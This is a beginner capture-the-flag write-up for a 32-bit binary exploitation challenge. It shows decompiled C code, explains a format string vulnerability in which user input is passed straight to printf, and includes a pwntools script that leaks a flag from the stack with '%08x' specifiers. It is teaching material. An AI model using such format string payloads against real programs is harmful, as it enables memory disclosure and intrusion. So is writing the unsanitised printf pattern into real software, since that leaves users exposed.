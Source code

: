 ## Skills required: basic pwn knowledge

This challenge serves as a nice introduction to binary exploitation and should be beginner-friendly enough. ~The next easiest pwn topic can give substantially harder challenges~.

<details>
  <summary>Hint 1:</summary>
  How can you reverse the program to understand it more? What are some tools that can be used?
</details>

<details>
  <summary>Hint 2:</summary>
  Only basic C knowledge is needed for this type of exploit.
</details>

<details>
  <summary><b>Solution:</b></summary>
  <br/>
  
  This 32-bit executable can be easily reversed with Ghidra. Looking at the decompiled functions will eventually lead you to:

``` c
void car_menu(void){
  int iVar1;
  int iVar2;
  uint __seed;
  int iVar3;
  size_t sVar4;
  char *__format;
  FILE *__stream;
  int in_GS_OFFSET;
  undefined *puVar5;
  undefined4 uVar6;
  undefined4 uVar7;
  uint local_54;
  char local_3c [44];
  int local_10;
  
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  uVar6 = 0xffffffff;
  uVar7 = 0xffffffff;
  do {
    printf(&DAT_00011948);
    iVar1 = read_int(uVar6,uVar7);
    if ((iVar1 != 2) && (iVar1 != 1)) {
      printf("\n%s[-] Invalid choice!%s\n",&DAT_00011548,&DAT_00011538);
    }
  } while ((iVar1 != 2) && (iVar1 != 1));
  iVar2 = race_type();
  __seed = time((time_t *)0x0);
  srand(__seed);
  if (((iVar1 == 1) && (iVar2 == 2)) || ((iVar1 == 2 && (iVar2 == 2)))) {
    iVar2 = rand();
    iVar2 = iVar2 % 10;
    iVar3 = rand();
    iVar3 = iVar3 % 100;
  }
  else if (((iVar1 == 1) && (iVar2 == 1)) || ((iVar1 == 2 && (iVar2 == 1)))) {
    iVar2 = rand();
    iVar2 = iVar2 % 100;
    iVar3 = rand();
    iVar3 = iVar3 % 10;
  }
  else {
    iVar2 = rand();
    iVar2 = iVar2 % 100;
    iVar3 = rand();
    iVar3 = iVar3 % 100;
  }
  local_54 = 0;
  while( true ) {
    sVar4 = strlen("\n[*] Waiting for the race to finish...");
    if (sVar4 <= local_54) break;
    putchar((int)"\n[*] Waiting for the race to finish..."[local_54]);
    if ("\n[*] Waiting for the race to finish..."[local_54] == '.') {
      sleep(0);
    }
    local_54 = local_54 + 1;
  }
  if (((iVar1 == 1) && (iVar2 < iVar3)) || ((iVar1 == 2 && (iVar3 < iVar2)))) {
    printf("%s\n\n[+] You won the race!! You get 100 coins!\n",&DAT_00011540);
    coins = coins + 100;
    puVar5 = &DAT_00011538;
    printf("[+] Current coins: [%d]%s\n",coins,&DAT_00011538);
    printf("\n[!] Do you have anything to say to the press after your big victory?\n> %s",
           &DAT_000119de);
    __format = (char *)malloc(0x171);
    __stream = fopen("flag.txt","r");
    if (__stream == (FILE *)0x0) {
      printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar5);
                    /* WARNING: Subroutine does not return */
      exit(0x69);
    }
    fgets(local_3c,0x2c,__stream);
    read(0,__format,0x170);
    puts(
        "\n\x1b[3mThe Man, the Myth, the Legend! The grand winner of the race wants the whole world  to know this: \x1b[0m"
        );
    printf(__format);
  }
  else if (((iVar1 == 1) && (iVar3 < iVar2)) || ((iVar1 == 2 && (iVar2 < iVar3)))) {
    printf("%s\n\n[-] You lost the race and all your coins!\n",&DAT_00011548);
    coins = 0;
    printf("[+] Current coins: [%d]%s\n",0,&DAT_00011538);
  }
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```

  `flag.txt` is read in the program but never printed. Can we leak the information somehow?
  
  Upon closer inspection, this line draws our attention:
  
```c
printf(__format);
```

  The issue is, printf usually takes 2 arguments: the format string and data to be supplied (if needed). Here's an example:
  
```c
char name[99];
printf("Please enter your name: ");
scanf("%s", &name);
printf("Hello, %s", name); // this line
```
  
  Supplying unsanitized user input directly as the format string gives rise to a "[format string vulnerability](https://www.securecoding.com/blog/format-string-vulnerability/)".
  The link gives a very detailed account on the matter, but for better illustration and learning, I use pwndbg to display the stack just before the printf (*Note I have set up a fake flag in `flag.txt` and the input is `abcdefghijklmnopqrstuvwxyz`*):
  
  ![Screenshot from 2022-10-19 23-44-05](https://user-images.githubusercontent.com/114584910/196756388-7d5e0dcf-d280-47ac-91f7-bf4ae406dc20.png)

  ![Screenshot from 2022-10-19 23-47-36](https://user-images.githubusercontent.com/114584910/196756409-fd888346-a7d7-443f-b020-d88431877844.png)

  Getting to that piece of code is trivially done by code inspection, trial-and-error or common sense (use 2->2->1 as the inputs).
      
  My pwntools script to solve the challenge:
  
``` py
from pwn import *
r = process('./racecar') # remote(...)
r.sendafter(b': ', b'd')
r.sendafter(b': ', b'd')
r.sendafter(b'> ', b'2')
r.sendafter(b'> ', b'2')
r.sendafter(b'> ', b'1')
r.sendafter(b'> \x1b[0m', b'%08x'*32)
#r.interactive()
r.readuntil(b'\x1b[0m')
s = r.readall().strip()
r.close()
print(b"".join(unhex(s[k:k+8].decode('utf-8'))[::-1] for k in range(0,32*8,8)))
```

</details>
